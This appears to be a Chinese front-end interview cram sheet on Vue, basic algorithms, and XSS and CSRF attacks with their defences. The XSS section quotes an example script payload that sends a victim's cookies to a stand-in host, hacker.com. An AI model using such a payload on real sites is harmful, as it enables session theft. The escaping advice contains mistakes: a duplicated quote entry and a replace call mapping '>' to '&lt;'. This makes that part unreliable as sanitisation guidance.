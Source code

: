 
Vue 押题

1.  （必考）Vue 有哪些生命周期钩子函数？

    *   看文档：[https://cn.vuejs.org/v2/api/#%E9%80%89%E9%A1%B9-%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F%E9%92%A9%E5%AD%90](https://cn.vuejs.org/v2/api/#%E9%80%89%E9%A1%B9-%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F%E9%92%A9%E5%AD%90 "null")
2.  （必考）Vue 如何实现组件通信？

    1.  父子通信（使用 Prop 传递数据、使用 v-on 绑定自定义事件）
    2.  爷孙通信（通过两对父子通信，爷爸之间父子通信，爸儿之间父子通信）
    3.  [兄弟通信（new Vue() 作为 eventBus）](https://cn.vuejs.org/v2/guide/components.html#%E9%9D%9E%E7%88%B6%E5%AD%90%E7%BB%84%E4%BB%B6%E7%9A%84%E9%80%9A%E4%BF%A1 "null")
3.  Vuex 的作用是什么？
    *   看文档、博客 [https://vuex.vuejs.org/zh-cn/intro.html](https://vuex.vuejs.org/zh-cn/intro.html "null")
4.  VueRouter 路由是什么？
    *   看文档、博客
5.  Vue 的双向绑定是如何实现的？有什么缺点？
    *   看文档，[深入响应式原理](https://cn.vuejs.org/v2/guide/reactivity.html "null")
6.  Computed 计算属性的用法？跟 Methods 的区别。
    [https://zhuanlan.zhihu.com/p/33778594](https://zhuanlan.zhihu.com/p/33778594 "null")

算法押题

1.  排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2.  二分查找法
3.  翻转二叉树

把上面三个背一下，算法题必过。

安全押题

1.  什么是 XSS 攻击？如何预防？
    *   举例

        ```
          div.innerHTML = userComment  // userComment 内容是 <script>$.get('http://hacker.com?cookie='+document.cookie)</script>
          // 恶意就被执行了，这就是 XSS

        ```

    *   预防
        1.  不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
        2.  如果你一样要用 innerHTML，字符过滤
            *   把 < 替换成 `&lt;`
            *   把 > 替换成 `&gt;`
            *   把 & 替换成 `&amp;`
            *   把 ' 替换成 `&#39;`
            *   把 ' 替换成 `&quot;`
            *   代码 div.innerHTML = userComment.replace(/>/g, '`&lt;`').replace...
        3.  使用 CSP Content Security Policy
2.  什么是 CSRF 攻击？如何预防？
    *   过程
        1.  用户在 qq.com 登录
        2.  用户切换到 hacker.com（恶意网站）
        3.  hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
        4.  用户在不知不觉中添加 hacker 为好友。
        5.  用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
    *   避免
        1.  检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
        2.  csrf_token 来解决
